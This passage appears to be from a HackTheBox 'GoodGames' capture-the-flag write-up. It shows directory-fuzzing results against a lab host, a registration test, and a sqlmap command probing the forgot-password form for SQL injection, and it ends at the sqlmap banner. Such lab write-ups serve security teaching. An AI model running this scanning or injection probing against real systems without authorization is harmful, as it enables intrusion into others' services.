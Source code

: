 [Status: 200, Size: 32744, Words: 10608, Lines: 730, Duration: 60ms]
| URL | http://10.10.11.130/forgot-password
    * FUZZ: forgot-password

[Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 37ms]
| URL | http://10.10.11.130/server-status
    * FUZZ: server-status

[Status: 200, Size: 10524, Words: 2489, Lines: 287, Duration: 133ms]
| URL | http://10.10.11.130/coming-soon
    * FUZZ: coming-soon

[Status: 200, Size: 9294, Words: 2101, Lines: 267, Duration: 121ms]
| URL | http://10.10.11.130/password-reset
    * FUZZ: password-reset

:: Progress: [56293/56293] :: Job [1/1] :: 179 req/sec :: Duration: [0:03:33] :: Errors: 0 ::
```

### Registration

During manual browsing with burp, entered details into [registration form](http://10.10.11.130/signup)

**email**: register@form.com
**first**: Register
**pwd**: Password123!

Upon attempting to resend the same data, it was noted that **Account already exists!**

### Input Validation

#### **sqlmap**

**forgot-password**

```
[ 12:17PM ]  [ ops@redteam:~/Documents/PT/HTB-goodgames/data ]
 $ sqlmap -u "http://goodgames.htb/forgot-password" --data "Email=*"        
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.6.12#stable}
|_ -| . [,]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
